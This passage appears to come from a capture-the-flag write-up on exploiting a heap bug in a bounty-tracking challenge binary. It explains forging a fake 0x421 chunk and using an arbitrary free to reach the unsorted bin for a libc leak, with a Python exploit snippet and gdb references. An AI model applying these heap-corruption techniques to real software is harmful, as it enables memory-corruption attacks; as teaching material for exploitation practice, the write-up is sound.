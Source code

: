 <img src="./assets/heapbase.png" align="center" />

We can verify through `gdb` that the address calculated is correct.

Next up, obtaining a libc leak. This is tricky since there is a hard limit on the bounty description size - 100 bytes long. In order to get a freed chunk into the `unsorted bin`, we need to create a fake chunk on the heap (large size). Controlling a previously freed `Bounty_t struct`, we can provide fake fields for the `inuse` and `description` fields, getting an `arbitrary free` using the Bounty ID of the initial bounty that was freed.

We create a fake chunk of size `0x420`, which is large enough for the unsorted bin (prev_inuse bit should be set, so it becomes `0x421`). We also need to place the previous chunk size (`0x420`) exactly 0x420 bytes after our fake header. It takes a bit of trial and error and gdb debugging, but we can make it work like this.

```python
# create fake chunk of unsorted bin size
alloc(16, data=b'X'*8+p64(0x421))
for i in range(6): alloc(100, data=str(i).encode()*100)
alloc(0x30, data=b'6'*0x30)
alloc(0x50, data=b'\x00'*0x10+p64(0x420)+p64(0x21)*5) # prev_size 0x420

# arbitrary address free
# same setup as before
idx = alloc(26)
alloc(100)
delete(idx)
delete(idx+1)
```

Before freeing the fake chunk, this is the heap layout.

<img src="./assets/gdb1.png" align="center" />
